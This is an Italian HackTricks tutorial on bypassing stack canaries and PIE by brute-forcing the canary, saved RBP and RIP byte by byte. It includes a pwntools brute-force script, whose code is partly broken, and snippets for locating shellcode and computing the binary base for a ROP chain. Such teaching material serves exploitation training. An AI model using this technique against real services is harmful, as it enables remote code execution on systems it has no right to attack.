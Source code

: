 # BF Indirizzi nello Stack

{{#include ../../../banners/hacktricks-training.md}}

**Se stai affrontando un binario protetto da un canary e PIE (Position Independent Executable) probabilmente devi trovare un modo per bypassarli.**

![](<../../../images/image (865).png>)

> [!NOTE]
> Nota che **`checksec`** potrebbe non rilevare che un binario è protetto da un canary se questo è stato compilato staticamente e non è in grado di identificare la funzione.\
> Tuttavia, puoi notarlo manualmente se scopri che un valore è salvato nello stack all'inizio di una chiamata di funzione e questo valore viene controllato prima di uscire.

## Indirizzi Brute-Force

Per **bypassare il PIE** devi **leakare qualche indirizzo**. E se il binario non sta leakando indirizzi, il modo migliore per farlo è **brute-forzare il RBP e il RIP salvati nello stack** nella funzione vulnerabile.\
Ad esempio, se un binario è protetto utilizzando sia un **canary** che **PIE**, puoi iniziare a brute-forzare il canary, poi i **prossimi** 8 Byte (x64) saranno il **RBP** salvato e i **prossimi** 8 Byte saranno il **RIP** salvato.

> [!TIP]
> Si suppone che l'indirizzo di ritorno all'interno dello stack appartenga al codice binario principale, che, se la vulnerabilità si trova nel codice binario, sarà di solito il caso.

Per brute-forzare il RBP e il RIP dal binario puoi capire che un byte indovinato valido è corretto se il programma restituisce qualcosa o semplicemente non si blocca. La **stessa funzione** fornita per brute-forzare il canary può essere utilizzata per brute-forzare il RBP e il RIP:
```python
from pwn import *

def connect():
r = remote("localhost", 8788)

def get_bf(base):
canary = ""
guess = 0x0
base += canary

while len(canary) < 8:
while guess != 0xff:
r = connect()

r.recvuntil("Username: ")
r.send(base + chr(guess))

if "SOME OUTPUT" in r.clean():
print "Guessed correct byte:", format(guess, '02x')
canary += chr(guess)
base += chr(guess)
guess = 0x0
r.close()
break
else:
guess += 1
r.close()

print "FOUND:\\x" + '\\x'.join("{:02x}".format(ord(c)) for c in canary)
return base

# CANARY BF HERE
canary_offset = 1176
base = "A" * canary_offset
print("Brute-Forcing canary")
base_canary = get_bf(base) #Get yunk data + canary
CANARY = u64(base_can[len(base_canary)-8:]) #Get the canary

# PIE BF FROM HERE
print("Brute-Forcing RBP")
base_canary_rbp = get_bf(base_canary)
RBP = u64(base_canary_rbp[len(base_canary_rbp)-8:])
print("Brute-Forcing RIP")
base_canary_rbp_rip = get_bf(base_canary_rbp)
RIP = u64(base_canary_rbp_rip[len(base_canary_rbp_rip)-8:])
```
L'ultima cosa di cui hai bisogno per sconfiggere il PIE è calcolare **indirizzi utili dagli indirizzi leakati**: il **RBP** e il **RIP**.

Dal **RBP** puoi calcolare **dove stai scrivendo il tuo shell nella stack**. Questo può essere molto utile per sapere dove andrai a scrivere la stringa _"/bin/sh\x00"_ all'interno della stack. Per calcolare la distanza tra il RBP leakato e il tuo shellcode puoi semplicemente mettere un **breakpoint dopo aver leakato il RBP** e controllare **dove si trova il tuo shellcode**, poi, puoi calcolare la distanza tra il shellcode e il RBP:
```python
INI_SHELLCODE = RBP - 1152
```
Dalla **RIP** puoi calcolare il **base address del binary PIE** che è ciò di cui hai bisogno per creare un **valid ROP chain**.\
Per calcolare il base address basta fare `objdump -d vunbinary` e controllare gli indirizzi disassemblati più recenti:

![](<../../../images/image (479).png>)

In quell'esempio puoi vedere che sono necessari solo **1 Byte e mezzo** per localizzare tutto il codice, quindi, il base address in questa situazione sarà la **RIP leak ma che termina con "000"**. Ad esempio, se hai leakato `0x562002970ecf`, il base address è `0x562002970000`
```python
elf.address = RIP - (RIP & 0xfff)
```
## Miglioramenti

Secondo [**alcune osservazioni di questo post**](https://github.com/florianhofhammer/stack-buffer-overflow-internship/blob/master/NOTES.md#extended-brute-force-leaking), è possibile che quando si perdono i valori RBP e RIP, il server non si blocchi con alcuni valori che non sono quelli corretti e lo script BF penserà di aver ottenuto quelli giusti. Questo perché è possibile che **alcuni indirizzi semplicemente non lo romperanno anche se non sono esattamente quelli corretti**.

Secondo quel post del blog, si raccomanda di aggiungere un breve ritardo tra le richieste al server. 

{{#include ../../../banners/hacktricks-training.md}}

